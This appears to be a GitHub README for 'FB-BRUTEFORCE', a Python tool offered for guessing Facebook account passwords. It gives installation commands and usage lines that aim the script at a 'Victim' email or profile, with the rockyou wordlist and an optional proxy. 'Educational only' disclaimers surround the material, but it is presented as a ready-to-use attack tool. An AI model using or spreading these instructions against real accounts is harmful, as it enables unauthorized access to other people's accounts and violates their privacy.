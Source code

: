 ## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/fb-bruteforce.png)
***

## INSTALLATION:
   #### ➡️use the following commands for Termux & Linux:

```shell script
apt update && apt upgrade
```

```shell script
apt-get install python-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip nistall mechanize
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
## Usage
   ```
       Usage: python FB-ATTACK.py [OPTIONS...]
Examples:
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python FB-ATTACK.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python FB-ATTACK.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python FB-ATTACK.py -t Victim@gmail.com -s 1234567
     |--------
     | python FB-ATTACK.py -g https://www.facebook.com/Victim_Profile
     |--------
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Telegram](https://t.me/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)

### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 29.12.2023 </p>

